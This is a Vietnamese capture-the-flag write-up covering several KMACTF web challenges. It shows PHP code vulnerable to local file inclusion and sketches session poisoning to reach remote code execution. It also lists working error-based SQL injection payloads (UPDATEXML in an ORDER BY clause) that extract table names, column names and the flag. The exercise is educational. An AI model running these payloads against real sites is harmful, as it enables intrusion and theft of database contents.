





# RCE ME 

## PHÂN TÍCH

Vào trang web của bài này ta thấy được như sau.



Sau một hồi test thì mình biết nó dính LFI và mình sài PHP wrapper thử đọc file index.php thì mình được như sau.



Đem đi decode base64 ta có được source code như sau.

```
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

Ta thấy source code có lấy vào một tham số `name` từ GET request để gán giá trị vào biến SESSION. Thử gán giá trị `name=d47` và dọc file session để xem như nào.



Vậy giờ ý tưởng là ta sẽ ghi nội dung là một đoạn code php và sau đó gọi đến file này để thực thi code PHP 

## KHAI THÁC





RCE thành công 


# Try SQL MAP

## PHÂN TÍCH

Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY 

Câu truy vấn có thể sẽ như sau.

> SELECT column_name from table_name order by $_GET[order]

Ở bài này xài UPDATEXML để lấy các tables, columns ở trong db 


## KHAI THÁC

PAYLOAD ĐỂ LẤY TÊN BẢNG

> 0^updatexml(0,concat(0xa,(select(mid(table_name,1,32))from(information_schema.tables)limit+1)),0)

Do kết quả trả về chỉ giới hạn 32 kí tự nên ta cần thực hiện 2 lần câu query để lấy đầy đủ tên bảng

> 0^updatexml(0,concat(0xa,(select(mid(table_name,32,32))from(information_schema.tables)limit+1)),0)

Table name: flahga123456789xxsxx012xxxxxxxxx34567xx1

PAYLOAD ĐỂ LẤY TÊN CỘT

> 0^updatexml(0,concat(0xa,(select(mid(column_name,1,32))from(information_schema.columns)limit+1)),0)

Column name: flag 

PAYLOAD ĐỂ LẤY FLAG

> PART1: 1^updatexml(0,concat(0,(select(mid(flag,1,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART2: 1^updatexml(0,concat(0,(select(mid(flag,33,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART3: 1^updatexml(0,concat(0,(select(mid(flag,65,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

FLAG: KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}


# RCE 2

Bài này lần đầu mình gặp, may có hint của tác giả có cho link của lỗi này. Sau đó mình sửa lại một chút là đọc được flag.

Link tham khảo: https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

File exploit mình để ở trên [rce2.py](rce2.py)

# Fast and furious

Đây là 1 bài programming, cho ta một dãy và yêu cầu ta sắp xếp dãy đó.

Script [fast.py](fast.py)
